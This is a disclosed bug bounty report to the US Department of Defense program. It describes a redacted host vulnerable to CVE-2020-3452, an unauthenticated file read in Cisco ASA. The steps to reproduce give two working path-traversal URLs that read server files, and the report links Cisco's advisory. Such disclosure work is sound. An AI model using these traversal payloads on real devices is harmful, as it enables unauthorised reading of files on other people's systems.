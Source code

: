 # [CVE-2020-3452] Unauthenticated file read in Cisco ASA

## Report Details
- **Report ID**: 1555015
- **URL**: https://hackerone.com/reports/1555015
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-29T22:45:41.768Z
- **Disclosed**: 2022-05-12T20:03:34.472Z

## Reporter
- **Username**: b4dc4t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
i found out that https://█████/ was vulnerable to CVE-2020-3452

The IP has a SSL certificate pointing to ██████████
curl -kv https://███████/

Output;
```
Server certificate:
███
```

## Impact

Anyone can read any file present on the server.

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2020-3452

## Steps to Reproduce
You can test it by visiting the URL:
1. https://█████████/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
2. https://█████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

## Suggested Mitigation/Remediation Actions
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86



## Attachments
No attachments
